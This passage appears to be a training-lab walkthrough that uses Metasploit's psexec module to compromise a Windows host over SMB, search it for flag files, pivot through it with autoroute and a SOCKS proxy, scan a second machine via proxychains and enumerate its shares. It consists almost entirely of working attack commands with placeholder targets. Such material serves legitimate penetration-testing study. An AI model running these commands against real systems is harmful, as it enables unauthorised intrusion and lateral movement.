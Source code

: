 ```shell
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS <target_IP_1>
set SMBUser <user>
set SMBPass <password>
exploit

getuid
sysinfo

shell
dir C:\ /s /b | findstr /i flag
# Searches for files and folders containing the word "flag" (case-insensitive) anywhere in their name across the entire C:\ drive.

# Now, let's ping to the second target and verify that it is reachable from the second machine.
```

Here we need to perform pivoting by adding route from the Metasploit framework.
Let's add the route using the meterpreter session and identify the second machine service.

```shell
run autoroute -s <second_target_IP><netmask>
# This command is used in the Meterpreter session within the Metasploit Framework. It sets up a route through a compromised machine to access other networks that are not directly reachable from the attacker's machine.

# We have successfully added the route to access the demo1.ine.local machine.
```

Now, let's start the socks proxy server to access the pivot system on the attacker's machine using the proxychains tool.
First start the socks server using the Metasploit module.

```shell
background
use auxiliary/server/socks_proxy
show options
set SRVPORT 9050
set VERSION 4a 
exploit
jobs
```

Now, let's run nmap with proxychains to identify SMB port (445) on the pivot machine. We could also specify multiple ports. But, in this case, we are only interested in SMB service.

```shell
proxychains nmap <target_IP_2> -sT -Pn -sV -p 445
```

Now, let's use the net view command to find all resources shared by the <target_IP_2> machine.

```shell
# Interact with the meterpreter session again.
sessions -i 1

pgrep explorer
migrate <process_ID>

shell
net view <target_IP_2>
```
